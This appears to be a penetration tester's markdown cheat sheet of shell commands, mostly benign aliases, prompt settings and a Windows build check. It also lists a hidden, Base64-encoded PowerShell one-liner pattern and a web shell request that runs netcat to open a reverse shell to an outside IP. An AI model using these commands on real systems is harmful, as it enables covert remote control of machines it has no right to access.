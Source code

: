 #### Get the Kernel Version
```pwsh
systeminfo | findstr Build
```
```pwsh
# output
OS Version:                10.0.17763 N/A Build 17763
```

### PowerShell
#### One-Liner Syntax
* -nop = No Profile (do not load the user's PowerShell profile)
* -w hidden = WindowsStyle is Hidden (do not open a window during execution)
* -e = Encoded Command (execute the following Base64 string as a command)
```bash
powershell.exe -nop -w hidden -e abcdcef...
```

#### Using a Web Shell
```bash
cmd.php?cmd=powershell.exe -c "c:\xampp\htdocs\nc.exe 192.168.49.58 45443 -e 'cmd.exe'"
```

### Bourne-Again Shell (BASH)
#### Create a Command Alias
Zsh
```bash
echo "alias cls='clear'" >> .zshrc # just me
echo "alias cls='clear'" >> /etc/zsh/zshrc # for all users
```

BASH
```bash
echo "alias cls='clear'" >> .bash_aliases # just me
echo "alias cls='clear'" >> /etc/bash.bashrc # for all users
```

**Login Shells (the GUI)**
```bash
echo "alias cls='clear'" >> .profile # just me
echo "alias cls='clear'" >> /etc/profile # for all users
```

#### Environment Variables
PS1
```bash
# how to change it to the previously less flashy one
vim .bashrc
# search for PS1 using /PS1
# comment-out PS1=$prompt_color...
# un-comment the line beneath BackTrack red prompt
```

#### Shell
How to change it from ZSH to BASH.
```bash
chsh -s /bin/bash
sudo reboot now
```
